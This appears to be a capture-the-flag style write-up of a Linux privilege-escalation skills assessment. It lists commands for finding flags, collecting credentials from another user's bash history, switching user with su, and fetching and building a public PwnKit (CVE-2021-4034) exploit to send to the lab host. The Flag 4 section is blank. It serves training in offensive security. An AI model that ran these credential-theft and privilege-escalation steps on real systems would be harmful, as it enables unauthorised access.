 ## Linux Local Privilege Escalation - Skills Assessment

**Flag 1
```shell-session
grep -rnw / -e "LLPE" 2>/dev/null
```
OR
```shell-session
ls -la
cd .config
ls -la
cat .flag1.txt
```

**Flag 2
```shell-session
cat /home/barry/.bash_history
```
- Found credentials
```shell-session
su barry
cat flag2.txt
```

**Flag 3
```shell-session
id
```
- In adm group
```shell-session
cat /var/log/flag3.txt
```

**Flag 4

**Flag 5
PolKit is running
```shell-session
sudo systemctl start docker
sudo docker run -it --rm ubuntu:20.04 /bin/bash
git clone https://github.com/berdav/CVE-2021-4034.git
cd CVE-2021-4034/
apt install make
apt install -y build-essential
make
cd ..
tar czf cve.tar.gz CVE-2021-4034/
scp cve.tar.gz barry@10.129.235.16:~
```
